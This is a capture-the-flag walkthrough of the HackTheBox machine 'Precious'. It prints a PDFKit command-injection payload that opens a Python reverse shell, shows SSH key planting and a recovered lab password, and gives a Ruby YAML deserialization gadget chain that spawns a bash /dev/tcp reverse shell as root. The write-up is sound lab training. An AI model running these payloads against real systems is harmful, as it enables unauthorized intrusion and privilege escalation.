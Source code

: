 ```yaml
---
cover: ../../.gitbook/assets/Precious.png
coverY: 254.84799999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Precious

First, I scan the remote host.

```sh
nmap -sC -sV 10.10.11.189
```

I have 2 ports :&#x20;

<figure><img src="../../.gitbook/assets/precious-nmap-scan.png" alt=""><figcaption></figcaption></figure>

I add vhost dns on local with `echo '10.10.11.189 precious.htb' | tee -a /etc/hosts`. The web service runs on `nginx 1.18.0`, I find a code injection for the form :

```sh
http://%20`sleep 1`		# it sleeps
```

Then I find a vulnerability on this [tool](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). I start a netcat listener on local :

```sh
nc -lnvp 1234
```

And I inject this code into the form on remote :

```
http://%20`python3 -c 'import sys, socket, os, pty; s=socket.socket(); s.connect(("10.10.14.9", 1234)); [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]; pty.spawn("sh")'`
```

I get the reverse shell as `ruby` :&#x20;

<figure><img src="../../.gitbook/assets/precious-reverse-shell.png" alt=""><figcaption></figcaption></figure>

I upgrade shell with `python3 -c "import pty;pty.spawn('/bin/bash')"`. I create a SSH key on local with `ssh-keygen` and I add the public key on remote `/home/ruby/.ssh/authorized_keys`. Now, I have SSH access and a real shell with `ssh ruby@precious`. I check all ruby's files with `find / -gid 1001 2>/dev/null` and there is an interesting file :&#x20;

<figure><img src="../../.gitbook/assets/precious-check-file.png" alt=""><figcaption></figcaption></figure>

I check the file content and I find henry's credentials :&#x20;

<figure><img src="../../.gitbook/assets/precious-henry-credentials.png" alt=""><figcaption></figcaption></figure>

Thus I can try SSH connection with `henry:Q3c1AqGHtoI0aXAYFH` such as `ssh henry@precious.htb`. It works :

```sh
cat /home/henry/user.txt
```

As `henry`, I check sudo permissions with `sudo -l` and I get :&#x20;

<figure><img src="../../.gitbook/assets/precious-sudo-list.png" alt=""><figcaption></figcaption></figure>

I can execute with no password :

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

* `secure_path` : the variable `PATH` in the command execution environment has the `secure_path` value.
* `mail_badpass` : if I fail a sudo command, it will log it.
* `env_reset` : the command is executed in a new minimal environment with these variables \[TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME, SUDO\_\*].

The `/opt/update_dependencies.rb` file's content is :

```rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

And the `dependencies.yaml` content is :

```yml
yaml: 0.1.1
pdfkit: 0.8.6
```

To execute the script, I have to go to specific location :&#x20;

<figure><img src="../../.gitbook/assets/precious-exec-sudo.png" alt=""><figcaption></figcaption></figure>

The script goes right only because I'm on the `/opt/sample` path. If I go to `home/henry`, it throws an exception. Thus the script loads the `dependencies.yml` form the current working directory. I create a new `dependencies.yml` at `/home/henry` and add it the following code block :

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.9/1234 0>&1'"
         method_id: :resolve
```

Source : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

I start a netcat listener on the local host with `nc -lnvp 1234` and execute the instruction :

```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

I gain root privilege on remote host !

```sh
cat /root/root.txt
```
